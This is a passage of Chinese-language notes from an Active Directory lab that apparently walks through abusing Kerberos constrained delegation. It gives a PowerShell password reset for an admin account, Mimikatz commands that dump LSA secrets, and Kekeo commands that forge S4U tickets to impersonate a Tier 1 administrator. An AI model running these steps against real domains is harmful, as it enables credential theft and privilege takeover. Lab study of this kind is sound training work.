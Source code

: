             # 为选定的 Tier 2 管理员账户重置密码
            $Password = ConvertTo-SecureString "NewP@ssw0rd123" -AsPlainText -Force
            Set-ADAccountPassword -Identity "t2_lawrence.lewis" -Reset -NewPassword $Password
            ```
            
            完成此步骤后，攻击者即可使用新密码以 Tier 2 管理员的身份进行登录。

---

#### 利用 Kerberos 委派 (Exploiting Kerberos Delegation)

- 基本原理 (Fundamentals)：
    
    Kerberos 委派允许一个服务（如 Web 服务器）冒充一个已认证的用户，去访问另一个服务（如数据库服务器）上的资源。这种机制被广泛用于实现单点登录和多层应用架构。
    
- **委派类型 (Delegation Types)**：
    
    - **无约束委派 (Unconstrained Delegation)**: 最早也是最不安全的类型。如果用户向配置了无约束委派的主机进行认证，该用户的 TGT 会被缓存在主机的内存中。如果攻击者攻陷了该主机，就可以窃取高权限用户的 TGT 并冒充他们。
    - **约束委派 (Constrained Delegation)**: 更安全的类型，它限制了服务账户只能冒充用户去访问**指定**的服务（如 `HTTP/webapp.domain.com`）。
    - **基于资源的约束委派 (Resource-Based Constrained Delegation, RBCD)**: 最新的模型，它反转了控制权。由**资源服务**（如数据库）来指定哪些服务账户可以冒充用户来访问它。
- **示例：约束委派利用 (Example: Constrained Delegation Exploitation)**：
    
    - **发现 (Discovery)**: 使用 PowerSploit 的 `Get-NetUser -TrustedToAuth` 发现 `svcIIS` 服务账户被配置了到 `THMSERVER1` 的 `HTTP` 和 `WSMAN` 服务的约束委派。
    - **凭证获取 (Credential Acquisition)**: 假设攻击者已获得 `THMWRK1` 的管理员权限，且 `svcIIS` 账户正在该主机上运行一个服务。可以使用 Mimikatz 转储 LSA Secrets 来获取 `svcIIS` 账户的明文密码。
        
        PowerShell
        
        ```
        # 在 Mimikatz 中
        token::elevate
        lsadump::secrets
        ```
        
    - **票据伪造与注入 (Ticket Forging and Injection)**:
        1. **获取 TGT**: 使用 Kekeo 和获取到的 `svcIIS` 密码，请求一个该账户的 TGT。
            
            PowerShell
            
            ```
            # 在 Kekeo 中
            tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password123
            ```
            
        2. **伪造 S4U 票据**: 使用上一步的 TGT，通过 S4U2Self 和 S4U2Proxy 协议，伪造一张服务票据 (TGS)，以某个 Tier 1 管理员（如 `t1_trevor.jones`）的身份访问 `THMSERVER1` 的 `HTTP` 和 `WSMAN` 服务。
            
            PowerShell
            
            ```
            # 在 Kekeo 中，为 HTTP 和 WSMAN 服务分别执行
            tgs::s4u /tgt:TGT_svcIIS@...kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc
            tgs::s4u /tgt:TGT_svcIIS@...kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc
            ```
            